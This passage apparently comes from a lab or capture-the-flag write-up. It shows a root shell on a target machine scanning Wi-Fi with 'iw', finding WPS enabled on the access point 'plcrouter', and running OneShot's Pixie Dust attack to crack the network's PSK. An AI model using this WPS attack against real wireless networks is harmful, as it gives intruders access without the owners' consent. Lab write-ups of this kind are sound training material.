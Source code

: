     iw dev wlan0 scan

```
root@attica01:/opt/PLC/OpenPLC_v3/webserver# iw dev wlan0 scan
BSS 02:00:00:00:01:00(on wlan0)
        last seen: 16720.612s [boottime]
        TSF: 1710689571207569 usec (19799d, 15:32:51)
        freq: 2412
        beacon interval: 100 TUs
        capability: ESS Privacy ShortSlotTime (0x0411)
        signal: -30.00 dBm
        last seen: 0 ms ago
        Information elements from Probe Response frame:
        SSID: plcrouter
        Supported rates: 1.0* 2.0* 5.5* 11.0* 6.0 9.0 12.0 18.0
        DS Parameter set: channel 1
        ERP: Barker_Preamble_Mode
        Extended supported rates: 24.0 36.0 48.0 54.0
        RSN:     * Version: 1
                 * Group cipher: CCMP
                 * Pairwise ciphers: CCMP
                 * Authentication suites: PSK
                 * Capabilities: 1-PTKSA-RC 1-GTKSA-RC (0x0000)
        Supported operating classes:
                 * current operating class: 81
        Extended capabilities:
                 * Extended Channel Switching
                 * SSID List
                 * Operating Mode Notification
        WPS:     * Version: 1.0
                 * Wi-Fi Protected Setup State: 2 (Configured)
                 * Response Type: 3 (AP)
                 * UUID: 572cf82f-c957-5653-9b16-b5cfb298abf1
                 * Manufacturer:
                 * Model:
                 * Model Number:
                 * Serial Number:
                 * Primary Device Type: 0-00000000-0
                 * Device name:
                 * Config methods: Label, Display, Keypad
                 * Version2: 2.0
```

We learn that it's using WPS. We'll attempt a WPS PIN attack using https://github.com/kimocoder/OneShot. We upload the *oneshot.py* file onto the machine and run a Pixie Dust attack.

    python3 oneshot.py -i wlan0 -K

We successfully crack the PSK of AP with SSID *plcrouter*.

